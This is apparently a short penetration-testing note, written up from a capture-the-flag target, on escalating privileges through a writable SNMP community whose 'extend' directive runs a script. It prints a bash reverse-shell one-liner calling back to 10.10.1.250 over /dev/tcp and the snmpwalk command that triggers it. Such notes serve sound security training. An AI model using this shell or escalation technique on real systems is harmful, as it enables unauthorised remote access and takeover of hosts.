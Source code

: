 ```yaml
---
description: >-
  SNMP Read and Write Community Abuse
title: SNMP Read and Write Community Abuse              # Add title here
date: 2022-09-02 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, SNMP Read and Write Community Abuse]                     # Change Templates to Writeup
tags: [firefox, snmp, snmp read and write community abuse]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### SNMP Priv Escalation

If port 161 is open internally you can search for the /etc/snmp/snmpd.conf file and review its content, notice that private community is read and writable:

```text
rocommunity public default
rwcommunity private default
extend etsctf /tmp/snmpd-tests.sh
```

If the extend permissions is configured then you can execute commands from within the folder by creating/modifying the file with following content:

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.1.250/4567 0>&1'
```

Don't forget to set the permissions of the script (chmod +x).
Then by executing the snmpwalk to retrieve the files, the reverse shell will be created:
```bash
snmpwalk localhost -c private -v1 . -On 
```

Examples:
[ECHO CTF Nopal](https://echoctf.red/target/38/writeup/read/37)